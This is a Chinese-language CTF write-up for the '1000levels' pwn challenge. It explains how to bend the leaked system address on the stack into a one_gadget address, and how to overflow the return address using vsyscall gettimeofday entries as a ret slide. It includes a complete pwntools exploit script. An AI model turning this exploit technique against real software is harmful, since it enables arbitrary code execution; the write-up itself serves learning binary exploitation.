

题目给了libc，因此可以利用这个泄露的地址计算其他gadgets的偏移，或者直接使用`one gadget RCE`
分析功能函数可以发现，当输入的关卡数为正数的时候，`rbp+var_110`处的内容会被关卡数取代，而输入负数时则不会，而这里的`rbp + var_110`也即是system存放在栈上的地址，根据栈帧开辟的原理和main函数代码的分析，由于两次循环之间并没有进出栈操作，main函数的rsp，也就是hint和go的rbp应该是不会改变的,即两个函数进入时`push rbp`操作的rbp值是一样的。
调试也可以发现确实如此，因为程序会将两次输入的关卡数相加，第一次输入负数，让system的地址加载到第一次输入关卡数处，第二次输入一个偏移量时就可以使`rbp + var_110`处原本system的地址变为`one gadget RCE`的地址，从而通过后面的答题函数构造溢出劫持RIP到这个地址拿到shell。
由于rbp_var_110里的值会被当成循环次数，当次数过大时会锁定为999次，所以我们必须写一个自动应答脚本来处理题目

```python
    def answer():
        p.recvuntil("Question: ")
        answer = str(eval(p.recvuntil("=")[:-2]))
        p.recvuntil("Answer:")
        p.send(answer)
```

计算发现0x38个字节后到rip，然而rip离`one gadget rce`还有三个地址长度



不能直接填充到`one gadget rce`处，但是可以采用`NOP slide`的思想，即写shellcode的时候在前面用大量的NOP进行填充。由于NOP是一条不会改变上下文的空指令，因此执行完一堆NOP后执行shellcode对shellcode的功能并没有影响，且可以增加地址猜测的范围，从一定程度上对抗ASLR。这里可以用ret指令不停地“滑”到下一条。不过程序开了PIE且没办法泄露内存空间中的地址，找不到一个可靠的ret指令所在地址。但是可以发现vsycall中的无参调用刚好有retn且没有leave指令，因为选用的`one gadget rce`要求rax=0，而gettimeofday执行成功时返回值就是0.因此可以选择调用三次vsyscall中的gettimeofday，利用执行完的ret“滑”过这片空间。

``` python
    from pwn import *

    p = process('./1000levels')
    libc = ELF('./libc.so.6')

    system_offset = libc.symbols['system']
    one_gadget = 0x45216
    offset = one_gadget - system_offset

    def answer():
        p.recvuntil("Question: ")
        answer = str(eval(p.recvuntil("=")[:-2]))
        p.recvuntil("Answer:")
        p.send(answer)

    p.recvuntil("Choice:")
    p.send('2')
    p.recvuntil("Choice:")
    p.send('1')
    p.recvuntil("levels?")
    p.send('-1')
    p.recvuntil("more?")
    p.send(str(offset))

    for i in range(999):    # 1000次，最后一次答题留作溢出构造
        log.info(" %dth level"%i)
        answer()
    print p.recv()
    p.send('A'*0x38 + p64(0xffffffffff600000)*3)
    p.interactive()
```



由于vsyscall地址的固定性，这个本来是为了节省开销的设置造成了很大的隐患，因此vsyscall很快就被新的机制vdso所取代。与vsyscall不同的是，vdso的地址也是随机化的，且其中的指令可以任意执行，不需要从入口开始。
